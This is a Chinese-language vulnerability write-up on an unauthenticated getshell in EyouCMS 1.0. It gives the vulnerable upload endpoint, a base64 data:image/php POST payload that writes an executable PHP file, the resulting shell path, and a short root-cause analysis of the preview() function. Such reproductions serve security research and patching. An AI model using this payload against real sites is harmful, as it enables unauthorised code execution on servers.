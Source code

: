 # Eyoucms 1.0 前台getshell

### 一、漏洞简介

官网：http://www.eyoucms.com/download/

Cms下载地址：http://www.eyoucms.com/eyoucms1.0.zip

### 二、漏洞影响

### 三、复现过程

老样子：先讲如何利用


```bash
url: http://test.eyoucms1.0.com/index.php/api/Uploadify/preview

构造: <?php phpinfo;
```

![](images/15890219437597.png)



```bash
post: data:image/php;base64,PD9waHAgcGhwaW5mbygpOw==
```

![](images/15890219596555.png)


Shell: `http://test.eyoucms1.0.com/preview/ae85d74a721b0b8bd247bc31207a12e2.php`

![](images/15890219888869.png)


**原理分析**

漏洞文件： eyoucms1.0\application\api\controller\Uploadify.php

漏洞函数：preview()

![](images/15890220021645.png)


![](images/15890220059357.png)


这里我将每行有意义的代码都解释了一下帮助读者进行查看。

而我刚开始时也思考了一下，这会不会是作者故意搞的后门？

带着这个问题我去问了一下加的php群的一些程序员 他们很惊讶的 表示data:image/ 居然还可以不是图片？

好吧。到这里我就基本明白为什么这个漏洞会出现了，估计作者以为data:image/ 只能是图片。

**四、参考链接**

https://www.yuque.com/pmiaowu/bfgkkh/kbh8mh